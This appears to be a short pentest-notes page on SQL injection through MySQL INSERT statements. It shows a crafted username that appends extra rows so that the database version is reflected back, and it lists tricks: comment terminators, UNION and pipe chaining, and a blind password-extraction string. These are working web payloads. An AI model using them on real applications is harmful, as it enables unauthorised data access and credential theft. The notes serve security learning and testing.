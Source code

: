 ## particularity of mysql insert queries : 

```sql
insert into myTable(a,b,c) values (1,2,3) (4,5,6)  .....
```
We can have an sql injection in a insert query.

If the application use insert and you can control a filed that can be reflected, you can abuse of insert
(the application should use Mysql)

normal usage :

username: jeyanthan<br>
password: hello<br>
comment: nothing<br>


```sql
insert into users(username,password,comment) values('jeyanthan','hello','nothing');
```


not normal usage :

username: jeyanthan','hello','nothing'), ('jeyanthan1', 'hello', (select @@version)), ('ratz', 'hello', 'one piece <br>
password: hello

```sql
insert into users(username,password,comment) values('jeyanthan','hello','nothing') , ('jeyanthan1', 'hello', (select @@version)), ('ratz', 'hello', 'one piece'); 
```

Once connected as 'jeyanthan1' the version of the Mysql db should be reflected.


#### trick 

injection parameter : <br>
-try to end the query with --, #, -- (with the additional space)<br>
-if the parameter use a string maybe  'union'  operator can be use to chain a second query.<br>
 You can also use '||' (pipe) operator in order to concatenate the result of your query in the original one.<br>
 You can also exfiltrate informations directly using 'and' :   ' and substring(password,1,1)='a' --<br>
-if the parameter use an integer either 'or' and ';' may work ! <br>



# Source: 

https://portswigger.net/web-security/sql-injection/cheat-sheet


